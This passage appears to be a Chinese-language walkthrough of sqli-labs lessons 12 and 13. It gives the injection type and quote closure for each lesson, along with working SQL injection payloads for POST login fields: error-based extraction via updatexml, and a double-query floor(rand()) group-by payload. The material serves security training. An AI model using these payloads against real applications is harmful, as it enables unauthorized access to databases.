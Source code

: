 ### Less-12：POST -Error Based - Double quotes- string - with twist

**注入类型**

报错注入

**闭合方式**

id=("\$id")

```sql
admin") and updatexml(1,concat(0x7e,database()),1) #
```

![](file/image_GnccndMVWj.png)

### Less-13：POST - Double lnjection - Single quotes- String - with twist

**注入类型**

双查询注入

**闭合方式**

id=('\$id')

```sql
admin') 
union select 1,count(*) from information_schema.tables group by concat(database(),floor(rand(0)*2))#
```
